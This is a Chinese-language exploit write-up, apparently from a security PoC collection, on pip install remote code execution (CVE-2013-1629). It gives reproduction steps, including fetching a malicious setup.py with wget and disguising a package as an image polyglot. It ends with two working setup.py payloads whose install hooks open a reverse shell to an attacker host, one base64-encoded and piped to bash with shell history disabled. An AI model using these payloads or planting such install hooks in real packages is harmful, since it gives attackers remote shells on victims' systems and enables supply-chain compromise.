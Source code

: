 # 

# Python pip install RCE 漏洞 CVE-2013-1629

## 漏洞描述

当通过 HTTP 从 Pypi 存储库检索包时，不会检查包内容的完整性。利用这个缺陷，攻击者可以通过 `pip install` 来执行代码。

参考阅读：

- https://github.com/0x00-0x00/FakePip
- https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-using-pip/python/sid-2098

## 影响版本

```
pip < 1.3
```

## 漏洞复现

### 方式1 FakePip

将 [setup.py](#漏洞POC) 文件下载到远程目标：

```
$ wget http://your-vps-ip/setup.py
```

在 VPS 上监听端口，在远程目标上执行命令：

```
$ mkdir fakepip
$ mv setup.py fakepip/
$ cd fakepip
# sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功获取反弹 Shell。

### 方式2 图片马

将 [setup.py](#漏洞POC) 文件放在文件夹中并压缩命名为，选择一张图片 test.png，制作图片马：

```
$ copy /b test.png + pic.zip pic.png
```

在 VPS 上监听端口，将图片上传至公网图床，复制链接，在远程目标上执行命令：

```
$ pip install " https://<your-img-link>"
```

也将图片可以上传到 VPS，在远程目标上执行命令：

```
$ pip3 install "http://192"."168"."xx"."xxx/pic.png"
```

## 漏洞POC

方式1 setup.py

```python
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    LHOST = 'localhost'  # change this
    LPORT = 13372
    
    reverse_shell = 'python -c "import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\'{LHOST}\', {LPORT})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"'.format(LHOST=LHOST,LPORT=LPORT)
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)


setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```

方式2 setup.py

```python
from setuptools import setup
import socket,subprocess,os
def run():
  import socket, time,pty, os
  host='{LHOST}'
  port='{LPORT}'
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(10)
  s.connect((host,port))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  os.putenv("HISTFILE",'/dev/null')
  pty.spawn("/bin/bash")
  s.close()
run()

setup(name="FakePip", version="1.0")
```



